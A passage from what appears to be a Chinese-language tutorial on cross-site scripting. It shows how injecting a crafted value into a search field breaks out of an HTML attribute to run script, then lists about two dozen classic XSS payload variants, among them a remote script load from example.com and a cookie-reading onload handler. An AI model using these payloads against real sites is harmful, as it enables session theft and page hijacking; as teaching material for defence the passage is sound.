 OK，可以开始做文章了，我们将XXX替换为：abc"/&gt;&lt;script&gt;alert('haha')&lt;/script&gt;&lt;a href="，返回的HTML代码如下：

<div style="border: 1px solid #cccccc; padding: 4px 5px 4px 14px; background-color: #333333; color: #ffffff;"><span style="color: #fb660a; font-weight: bold;">&lt;input</span> <span style="color: #ff0086; font-weight: bold;">type=</span><span style="color: #0086d2;">"text"</span> <span style="color: #ff0086; font-weight: bold;">class=</span><span style="color: #0086d2;">"Seach"</span> <span style="color: #ff0086; font-weight: bold;">name=</span><span style="color: #0086d2;">"w"</span> <span style="color: #ff0086; font-weight: bold;">value=</span><span style="color: #0086d2;">"abc"</span><span style="color: #fb660a; font-weight: bold;">/&gt;&lt;script&gt;</span><span style="color: #ffffff;">alert</span><span style="color: #ffffff;">(</span><span style="color: #0086d2;">'haha'</span><span style="color: #ffffff;">)</span><span style="color: #fb660a; font-weight: bold;">&lt;/script&gt;</span><span style="color: #008800; font-style: italic; background-color: #0f140f;">&lt;!--" /&gt;</span></div>

这样，&lt;script&gt;alert('haha')&lt;/script&gt;被执行了。这里再举例一些XSS攻击行为： 

<div style="border: 1px solid #cccccc; padding: 4px 5px 4px 14px; background-color: #333333; color: #ffffff;">&lt;IMG SRC="javascript:alert('XSS');"&gt;

&lt;IMG SRC=javascript:alert('XSS')&gt;

&lt;IMG SRC="javascript:alert(String.fromCharCode(88,83,83))"&gt;

&lt;IMG SRC="jav	ascript:alert('XSS');"&gt;

&lt;SCRIPT/XSS SRC="http://example.com/xss.js"&gt;&lt;/SCRIPT&gt;

&lt;&lt;SCRIPT&gt;alert("XSS");//&lt;&lt;/SCRIPT&gt;

&lt;iframe src=http://example.com/scriptlet.html &lt;

&lt;INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');"&gt;

&lt;BODY BACKGROUND="javascript:alert('XSS')"&gt;

&lt;BODY ONLOAD=alert(document.cookie)&gt;

&lt;BODY onload!#$%&amp;()*~+-_.,:;?@[/|"]^`=alert("XSS")&gt;

&lt;IMG DYNSRC="javascript:alert('XSS')"&gt;

&lt;IMG DYNSRC="javascript:alert('XSS')"&gt;

&lt;BR SIZE="&amp;{alert('XSS')}"&gt;

&lt;IMG SRC='vbscript:msgbox("XSS")'&gt;

&lt;TABLE BACKGROUND="javascript:alert('XSS')"&gt;

&lt;DIV STYLE="width: expression(alert('XSS'));"&gt;

&lt;DIV STYLE="background-image: url(javascript:alert('XSS'))"&gt;

&lt;STYLE TYPE="text/javascript"&gt;alert('XSS');&lt;/STYLE&gt;

&lt;STYLE type="text/css"&gt;BODY{background:url("javascript:alert('XSS')")}&lt;/STYLE&gt;

&lt;?='&lt;SCRIPT&gt;alert("XSS")&lt;/SCRIPT&gt;'?&gt;

&lt;A HREF="javascript:document.location='http://www.example.com/'"&gt;XSS&lt;/A&gt;

&lt;IMG SRC=javascript:alert('XSS')&gt;
